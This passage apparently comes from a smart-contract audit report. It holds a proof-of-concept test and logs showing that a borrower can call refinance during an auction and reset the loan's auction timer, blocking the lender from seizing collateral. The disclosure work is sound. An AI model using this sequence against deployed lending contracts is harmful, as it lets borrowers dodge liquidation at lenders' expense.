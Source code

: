 ```
        (, , , , , , , , uint256 notStarted, ) = lender.loans(0);
        console.log(
            "Auction time of the loan when it is not started: ",
            notStarted
        );

        vm.startPrank(lender1);
        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = 0;

        lender.startAuction(loanIds);

        (, , , , , , , , uint256 auctionStarted, ) = lender.loans(0);
        console.log(
            "Auction time of the loan when auction is started: ",
            auctionStarted
        );

        vm.startPrank(borrower);
        Refinance memory r = Refinance({
            loanId: 0,
            poolId: poolId,
            debt: 100 * 10 ** 18,
            collateral: 200 * 10 ** 18
        });
        Refinance[] memory rs = new Refinance[](1);
        rs[0] = r;

        lender.refinance(rs);

        (, , , , , , , , uint256 afterRefinance, ) = lender.loans(0);
        console.log(
            "Auction time of the loan after refinance is called: ",
            afterRefinance
        );
    }
```

These are the logs: 

```
Logs:
  Auction time of the loan when it is not started:  115792089237316195423570985008687907853269984665640564039457584007913129639935
  Auction time of the loan when auction is started:  1
  Auction time of the loan after refinance is called:  115792089237316195423570985008687907853269984665640564039457584007913129639935
```
## Impact
The lender can only receive the collateral of the loan taken by the malicious actor if he call repay himself and pays the debt of the loan. 
